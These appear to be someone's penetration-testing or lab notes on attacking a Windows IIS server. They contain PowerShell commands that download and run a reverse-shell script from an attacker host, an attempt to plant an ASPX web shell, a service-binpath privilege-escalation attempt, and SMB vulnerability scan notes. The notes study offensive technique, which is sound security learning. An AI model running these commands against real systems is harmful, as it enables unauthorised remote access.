 ```
powershell wget http://10.8.0.129/Invoke-PowerShellTcp.ps1 -outfile c:\windows\temp\Invoke-PowerShellTcp.ps1

powershell c:\windows\temp\Invoke-PowerShellTcp.ps1
  - access denied, it's not good place
    - temporary directory writable for programs: 
    1. c:\users\public - anyone has write permission
    2. c:\inetpub - not sure
    
    - only for actual users
    1. C:\Users\dhffl\AppData\Local\Temp - current user only 
    2. c:\windows\temp - only for actual users  

powershell wget http://10.8.0.129/Invoke-PowerShellTcp.ps1 -outfile c:\users\public\Invoke-PowerShellTcp.ps1


powershell c:\users\public\Invoke-PowerShellTcp.ps1
  - ![alt text](image-2.png)
  - it's not allowed to run scripts by default 
  - need `Set-ExecutionPolicy RemoteSigned` as local administrator
  - so it's worse than in-memory attack
```

  - iis aspx revshell
    - cp /usr/share/webshells/aspx/cmdasp.aspx .
    - github shell.aspx
```
powershell wget http://10.8.0.129/shell.aspx -outfile c:\inetpub\wwwroot\shell.aspx
  - access denied
```

  - python
    - X 

    
#### get powershell as iis apppool\defaultapppool,
sc.exe config "Disk Pulse Enterprise" binpath= "c:\temp\malicious.exe"
  - denied 
    - find another services or SW
    - I think actual user is higher than web server




### SMB 139,445
- scripts
  - smb-vuln*
  - smb-vuln-ms*
    no
  - smb ?
    too much flood etc
  - or other thing?

